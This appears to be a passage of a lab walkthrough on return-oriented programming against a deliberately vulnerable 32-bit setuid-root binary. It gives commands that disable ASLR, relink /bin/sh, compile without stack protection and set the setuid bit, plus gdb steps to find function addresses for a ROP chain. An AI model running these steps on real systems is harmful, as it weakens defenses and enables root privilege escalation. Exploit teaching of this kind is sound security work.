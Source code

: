 ```bash
sudo sysctl -w kernel.randomize_va_space=0
sudo ln -sf /bin/zsh /bin/sh
export MYSHELL="/bin/sh"
rm -f badfile && touch badfile
```
```bash
gcc -fno-stack-protector -z noexecstack -o stack_rop stack_rop.c
sudo chown root stack_rop
sudo chmod 4755 stack_rop
stack_rop
# The '/bin/sh' string's address: 0xbffffef0
# Address of buffer[]:  0xbfffead8
# Frame Pointer value:  0xbfffeb48
# Diff between buffer & frame pointer = 112
# Returned Properly
```

**NOTE: Be sure to use the ebp (frame pointer) value that is printed out by running `./stack_rop` directly.**
**If you use a value for ebp that you obtain from gdb, it will not be correct!**


## Example 1 --- Returning to Function (WITHOUT Args)

> _**Observation 5.1:**_
> _Assume a function A()'s return address field contains the address of the entry point of function B(),_
> _and the frame pointer of function A() points to address X. After the program returns to function B() from function A(),_
> _the frame pointer will point to address X+4._

```bash
$ gdb -q stack_rop
Reading symbols from stack_rop...(no debugging symbols found)...done.
gdb-peda$ b foo
gdb-peda$ r
gdb-peda$ p bar
$1 = {<text variable, no debug info>} 0x8048582 <bar>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e369d0 <__GI_exit>
gdb-peda$ q
```
Update `chain_noarg.py` with the above addresses, then run:  
```bash
chain_noarg.py && stack_rop
# Address of buffer[]:  0xbfffead8
# Frame Pointer value:  0xbfffeb48
# Diff between buffer & frame pointer = 112
# The function bar() is invoked 1 times!
# The function bar() is invoked 2 times!
# The function bar() is invoked 3 times!
# The function bar() is invoked 4 times!
# The function bar() is invoked 5 times!
# The function bar() is invoked 6 times!
# The function bar() is invoked 7 times!
# The function bar() is invoked 8 times!
# The function bar() is invoked 9 times!
# The function bar() is invoked 10 times!
```
